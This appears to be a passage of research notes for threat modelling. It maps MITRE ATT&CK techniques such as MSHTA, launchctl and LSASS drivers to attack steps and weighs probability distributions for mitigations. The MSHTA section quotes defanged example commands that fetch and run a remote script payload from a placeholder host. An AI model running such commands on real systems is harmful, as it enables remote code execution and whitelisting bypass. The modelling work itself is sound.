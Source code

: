 This command can be executed and exploited with no restriction and user rights if the user account management isn't properly done. The only mitigation for this attack is userAccountManagement, for which we should find a probability distribution. If we do, the launchctl attackStep won't need a probability distribution.

We could then assess this probability distribution to be binary.

### Local Job Scheduling 
https://attack.mitre.org/techniques/T1168/
This functionality can be exploited with no restriction and user rights if the user account management isn't properly done. The only mitigation for this attack is userAccountManagement, for which we should find a probability distribution. If we do, the Local Job Scheduling attackStep won't need a probability distribution.

We could then assess this probability distribution to be binary.

### LSASS_Driver

Adversaries may target lsass.exe drivers to obtain execution and/or persistence. By either replacing or adding illegitimate drivers (e.g., DLL Side-Loading or DLL Search Order Hijacking), an adversary can achieve arbitrary code execution triggered by continuous LSA operations.

### MSHTA

Adversaries can use mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code.

Files may be executed by mshta.exe through an inline script: ``mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))``

They may also be executed directly from URLs:`` mshta http[:]//webserver/payload[.]hta``

Mshta.exe can be used to bypass application whitelisting solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings.

The mshta.exe command can be executed with userRights and no restriction as long as it is enabled on the user session. 

https://www.hackingarticles.in/bypass-application-whitelisting-using-mshta-exe-multiple-methods/
Exploits can be performed in minutes if not seconds so this attack step might be considered as instantenous.

If we can find a probability distribution for the disableOrRemoveFeatureOrProgram mitigation, we could then assess this probability distribution to be binary. 

Love found a probability for this step. Should we consider it as the probability for the mitigations to be enabled or the probability of success?


### Powershell

Probability found by Love.
https://www.researchgate.net/publication/262327083_Aggregating_vulnerability_metrics_in_enterprise_networks_using_attack_graphs
